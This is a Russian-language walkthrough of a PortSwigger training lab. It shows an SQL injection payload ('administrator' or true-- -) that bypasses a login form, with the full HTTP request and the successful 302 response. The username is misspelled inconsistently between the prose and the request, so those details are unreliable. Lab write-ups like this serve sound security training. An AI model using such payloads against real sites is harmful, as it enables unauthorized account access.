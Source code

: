 ```yaml
---
title: "SQL injection vulnerability allowing login bypass"
date: 2025-06-06
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/server-side-vulnerabilities-apprentice/sql-injection-apprentice/sql-injection/lab-login-bypass"
classes: wide
---
```


Эта лабораторная работа содержит уязвимость **SQL injection** в функции входа в систему Для решения лабораторной работы надо выполнить атаку с помощью `SQL`-инъекции, войдя в приложение под пользователем `administrator`.

```
https://0a1500d303f14c6281ea0218003c00ea.web-security-academy.net
```

## Solution

Мне нужно обойти проверку пароля для пользователя `adminstrator`, поэтому сразу пойду на страницу `login`:


![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_sqli/IMG_SQL_injection_vulnerability_allowing_login_bypass/1.png){: height="200" .align-center}


Уязвимым к инъекции может быть как поле логина, так и пароля. 


Для начала опробую поле логина. Предположим, что запрос у нас выглядит следующим образом:

```sql
SELECT
	*
WHERE
	login = 'login' AND passwd = 'passwd'
```

В таком случае, мы можем обойти проверку пароля, если в качестве значения логина передадим `administrator' or true-- -`. Тогда у нас получится следующий запрос:

```sql
SELECT
	*
WHERE
	login = 'administrator' or true-- - AND passwd = 'passwd'
```

<details>
<summary>Пояснение</summary> 
  
Подставляя в login <strong>'administrator' or true-- -</strong>, мы обрезаем проверку пароля для логина administrator.

</details>

Попробую передать это в форму:


```http
POST /login HTTP/2
Host: 0a1500d303f14c6281ea0218003c00ea.web-security-academy.net
Cookie: session=1rcwplSRhqfHU2mo3IclkjPvk8kNhXnc
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a1500d303f14c6281ea0218003c00ea.web-security-academy.net/login
Content-Type: application/x-www-form-urlencoded
Content-Length: 88
Origin: https://0a1500d303f14c6281ea0218003c00ea.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

csrf=Tcvn8SZebZyEp2evyWuhacbr521caP4L&username=+administator%27+or+true--+-&password=111
```


На что я получил ответ и меня пустило на страницу пользователя `administrator`:

```http
HTTP/2 302 Found
Location: /my-account?id=administrator
Set-Cookie: session=7UteASMPdTQlDWDTbG7bUdDehqT1H6xx; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```


![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_sqli/IMG_SQL_injection_vulnerability_allowing_login_bypass/2.png){: height="200" .align-center}


Лаба пройдена:3 ☕